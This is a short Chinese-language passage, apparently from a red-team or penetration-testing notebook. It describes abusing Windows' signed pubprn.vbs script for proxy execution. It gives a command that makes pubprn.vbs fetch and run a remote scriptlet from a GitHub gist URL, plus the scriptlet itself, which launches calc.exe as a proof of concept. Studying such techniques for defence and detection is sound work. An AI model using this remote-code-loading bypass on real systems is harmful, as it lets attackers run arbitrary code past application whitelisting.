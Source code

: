 **15、pubprn.vbs**

在Windows 7以上版本存在一个名为PubPrn.vbs的微软已签名WSH脚本，其位于C:\Windows\System32\Printing\_Admin\_Scripts\en-US，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给GetObject\(\)

```text
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

test.sct

```text
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
    >
</registration>
<script language="JScript">
<![CDATA[
        var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```

![](../.gitbook/assets/20200413-15.png)
